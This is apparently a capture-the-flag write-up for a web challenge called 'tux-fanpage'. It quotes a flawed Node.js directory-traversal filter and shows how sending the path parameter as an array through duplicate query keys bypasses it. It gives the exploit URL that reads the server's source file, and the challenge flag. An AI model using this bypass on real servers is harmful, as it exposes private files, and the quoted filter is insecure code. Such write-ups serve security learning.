 # tux-fanpage

Source: [index.js](./index.js)

Based on a quick scan through the code, it appears we need to use a directory traversal attack. However, there are some functions in place as a filter.

```js
//Prevent directory traversal attack
function preventTraversal(dir) {
	if (dir.includes("../")) {
		let res = dir.replace("../", "");
		return preventTraversal(res);
	}

	//In case people want to test locally on windows
	if (dir.includes("..\\")) {
		let res = dir.replace("..\\", "");
		return preventTraversal(res);
	}
	return dir;
}

//Get absolute path from relative path
function prepare(dir) {
	return path.resolve("./public/" + dir);
}
```

One thing we notice is that we can pass an array in the query string through duplicate keys (eg. `?path=a&path=b`). This means that we can defeat the `preventTraversal` function.

Final Exploit:
https://tux-fanpage.2020.redpwnc.tf/page?path=a&path=/../../index.js

Flag: `flag{tr4v3rsal_Tim3}`
